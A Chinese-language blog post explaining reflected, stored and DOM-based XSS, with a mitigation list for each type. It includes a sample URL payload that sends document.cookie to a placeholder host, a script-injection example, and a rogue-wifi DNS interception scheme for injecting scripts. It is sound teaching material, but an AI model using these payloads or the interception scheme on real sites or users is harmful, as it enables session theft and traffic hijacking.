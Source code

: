 ```yaml
---
title: xss攻击
date: 2017-10-17 09:00:30
tags: [安全, xss]
categories: 其它
---
```


XSS（cross-site scripting 跨域脚本攻击）攻击是最常见的 web 攻击，其重点是“跨域”和“客户端执行”。XSS 攻击分为三种，分别是：

1. Reflected XSS（基于反射的 XSS 攻击）
2. Stored XSS（基于存储的 XSS 攻击）
3. DOM-based or local XSS（基于 DOM 或本地的 XSS 攻击）

###### 1、Reflected XSS

基于反射的 XSS 攻击，主要依靠站点服务端返回脚本，再客户端触发执行从而发起 Web 攻击。

> 例子

> 1、做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

> 2、在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

> 3、当前端页面没有对返回的数据进行过滤，直接显示在页面上，这时就会 alert 那个字符串出来。

> 4、进而可以构造获取用户 cookies 的地址，通过 QQ 群或者垃圾邮件，来让其他人点击这个地址：

```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```

安全措施

1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

###### 2、Stored XSS

基于存储的 XSS 攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

> 例子

> 1. 发一篇文章，里面包含了恶意脚本

```
今天天气不错啊！<script>alert('handsome boy')</script>
```

> 2. 后端没有对文章进行过滤，直接保存文章内容到数据库。

> 3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

安全措施

1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如 script 标
   签，将特殊字符转换成 HTML 编码。

###### 3、DOM-based or local XSS

基于 DOM 或本地的 XSS 攻击。一般是提供一个免费的 wifi，但是提供免费 wifi 的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的 XSS 攻击。

> 例子

1. 提供一个免费的 wifi。
1. 开启一个特殊的 DNS 服务，将所有域名都解析到我们的电脑上，并把 Wifi 的 DHCP-DNS 设置为我们的电脑 IP。
1. 之后连上 wifi 的用户打开任何网站，请求都将被我们截取到。我们根据 http 头中的 host 字段来转发到真正服务器上。
1. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
1. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

![image](http://note.youdao.com/yws/public/resource/b9cdada69234d36736d09235b516171c/xmlnote/6D0B1492A8EA43BC83431AB18AFB4D8D/5307)

安全措施
使用 HTTPS!

[xsshunter](https://xsshunter.com/)
[XSpear](https://github.com/hahwul/XSpear)
[XSStrike](https://github.com/s0md3v/XSStrike)
